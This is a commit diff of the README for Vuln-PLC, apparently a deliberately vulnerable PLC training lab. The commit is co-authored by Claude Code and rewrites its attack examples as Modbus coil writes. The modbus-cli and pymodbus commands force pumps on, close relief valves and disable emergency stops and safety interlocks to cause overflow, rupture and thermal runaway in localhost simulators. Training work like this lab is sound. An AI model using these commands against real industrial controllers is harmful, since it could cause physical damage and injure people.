

Before and after one commit to Taimaishu/Vuln-PLC, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 92% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update README with realistic coil-based Modbus attacks
Major update to attack examples - now uses proper industrial control:

✅ Changed from register writes to coil writes
✅ Coils = Digital outputs (pumps, valves, motors, relays)
✅ Registers = Analog values (levels, temperatures, pressures)

Updated all attack examples:
- Tank overflow: Control pump (coil 0) and valve (coil 3)
- Pressure spike: Control compressor (coil 0) and relief valve (coil 4)
- Thermal runaway: Control heaters and coolers via coils
- Safety bypass: Disable safety systems via coils

Added documentation:
- Explanation of coils vs registers
- modbus-cli syntax for coil writes
- Python pymodbus examples
- Technical notes about realistic PLC control

This matches real industrial Modbus usage where:
- Function 0x05/0x0F = Write Coils (ON/OFF control)
- Function 0x06/0x10 = Write Registers (analog values)

🤖 Generated with [Claude Code](https://claude.com/claude-code)

Co-Authored-By: Claude Sonnet 4.5 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -46,22 +46,38 @@ pip install modbus-cli
 firefox http://localhost:5000  # PLC-1
 ```
 
-**Try your first attack (works on ALL 4 PLCs!):**
+**Try your first attack (Modbus Coil Control):**
+
+> **Note:** Real PLCs use **coils** for digital outputs (pumps, valves) and **registers** for analog values (levels, temps). Use Modbus function 0x05 to write coils!
+
 ```bash
-# PLC-1: Force tank overflow
-sudo modbus 127.0.0.1:5502 write 0 1   # Pump ON
-sudo modbus 127.0.0.1:5502 write 1 0   # Valve CLOSED
+# Using modbus-cli (if installed):
+pip install modbus-cli
 
-# PLC-2: Pressure spike
-sudo modbus 127.0.0.1:5503 write 0 1   # Compressor ON
+# PLC-1: Force tank overflow (coil 0 = pump1, coil 3 = valve1)
+sudo modbus write-coil 127.0.0.1:5502 0 1    # Pump ON
+sudo modbus write-coil 127.0.0.1:5502 3 0    # Valve CLOSED
 
-# PLC-3: Thermal runaway
-sudo modbus 127.0.0.1:5504 write 0 1   # Heater ON
+# PLC-2: Pressure spike (coil 0 = compressor1)
+sudo modbus write-coil 127.0.0.1:5503 0 1    # Compressor ON
 
-# PLC-4: Disable safety systems
-sudo modbus 127.0.0.1:5505 write 0 0   # Emergency stop OFF
+# PLC-3: Thermal runaway (coil related to heaters)
+sudo modbus write-coil 127.0.0.1:5504 0 1    # Heater ON
+
+# PLC-4: Disable safety (coil 0 = emergency stop)
+sudo modbus write-coil 127.0.0.1:5505 0 0    # Emergency stop OFF
 
 # Watch the consequences on HMI: http://localhost:8000 (local) or check PLC web interfaces (Docker)
+```
+
+**Python alternative (raw Modbus):**
+```python
+from pymodbus.client import ModbusTcpClient
+
+client = ModbusTcpClient('127.0.0.1', port=5502)
+client.write_coil(0, True)   # Turn pump ON
+client.write_coil(3, False)  # Close valve
+client.close()
 ```
 
 ---
@@ -218,31 +235,35 @@ See [Docker Installation](#docker-installation) section for setup instructions.
 **Tank Overflow (PLC-1 - Visual Impact):**
 ```bash
 # Open HMI: http://localhost:8000
-sudo modbus 127.0.0.1:5502 write 0 1   # Force pump ON
-sudo modbus 127.0.0.1:5502 write 1 0   # Force valve CLOSED
+sudo modbus write-coil 127.0.0.1:5502 0 1   # Force pump ON (coil 0)
+sudo modbus write-coil 127.0.0.1:5502 3 0   # Force valve CLOSED (coil 3)
 # Watch tank overflow in real-time!
 ```
 
 **Pressure Vessel Rupture (PLC-2):**
 ```bash
-sudo modbus 127.0.0.1:5503 write 0 1   # Compressor ON
-sudo modbus 127.0.0.1:5503 write 1 0   # Relief valve CLOSED
+sudo modbus write-coil 127.0.0.1:5503 0 1   # Compressor ON (coil 0)
+sudo modbus write-coil 127.0.0.1:5503 4 0   # Relief valve CLOSED (coil 4)
 # Pressure rises until rupture
 ```
 
 **Thermal Runaway (PLC-3):**
 ```bash
-sudo modbus 127.0.0.1:5504 write 0 1   # Heater 1 ON at full power
-sudo modbus 127.0.0.1:5504 write 2 0   # Cooler 1 OFF
+# Control heaters/coolers via coils
+sudo modbus write-coil 127.0.0.1:5504 0 1   # Heater 1 ON (coil 0)
+sudo modbus write-coil 127.0.0.1:5504 2 0   # Cooler 1 OFF (coil 2)
 # Temperature rises uncontrollably
 ```
 
 **Safety System Bypass (PLC-4):**
 ```bash
-sudo modbus 127.0.0.1:5505 write 0 0   # Disable emergency stop
-sudo modbus 127.0.0.1:5505 write 1 0   # Disable safety interlock
+# Disable safety via coils (digital outputs)
+sudo modbus write-coil 127.0.0.1:5505 0 0   # Disable emergency stop
+sudo modbus write-coil 127.0.0.1:5505 1 0   # Disable safety interlock
 # All safety systems now bypassed - catastrophic!
 ```
+
+> **Technical Note:** Coils (0x05/0x0F) control digital outputs like pumps and valves. Registers (0x06/0x10) set analog values like setpoints and speeds. This matches real industrial PLCs!
 
 **SQL Injection (Web Interface):**
 ```bash
````
Also changed, not shown: other parts of README.md (+2 -1 lines).
